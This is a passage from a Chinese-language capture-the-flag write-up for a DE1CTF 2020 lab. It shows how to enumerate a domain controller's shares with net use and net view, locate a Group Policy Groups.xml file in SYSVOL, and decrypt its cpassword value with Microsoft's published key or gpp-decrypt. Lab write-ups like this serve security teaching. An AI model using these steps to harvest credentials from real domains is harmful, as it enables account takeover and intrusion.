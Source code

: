 ###### 从上面的结果来看我们的域控是`192.168.0.12`。

###### 3.拿到域控的共享文件夹，找到组策略。

```
net use \\192.168.0.12
net view \\192.168.0.12
net use S:\\192.168.0.12\wq
回车后即可映射局域网内目标机器的S盘。
或者直接访问net use \\192.168.0.12\SYSVOL\de1ctf2020.lab\Policies也行随你高兴 
```

###### 
结果如下：

![](img/d59c568df71eb0604de66c5751873f6f.png)

###### 4.找到组策略下本地管理员保存登陆密码的Groups.xml文件：

```
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="HintZip_Pass" image="2" changed="2020-04-15 14:43:23" uid="{D33537C1-0BDB-44B7-8628-A6030A298430}"><Properties action="U" newName="" fullName="" description="" cpassword="uYgjj9DCKSxqUp7gZfYzo0F6hOyiYh4VmYBXRAUp+08" changeLogon="1" noChange="0" neverExpires="0" acctDisabled="0" userName="HintZip_Pass"/></User>
</Groups> 
```

###### 该密码是AES-256加密，微软提供了密钥https://msdn.microsoft.com/en-us/library/cc422924.aspx，直接解开即可，或者使用kail自带的`gpp-decrypt`解密，结果如下：

###### 5.解压压缩包拿到flag:

###### 

![](img/7137ed3a96d9d573a49fa55cbbb8a347.png)
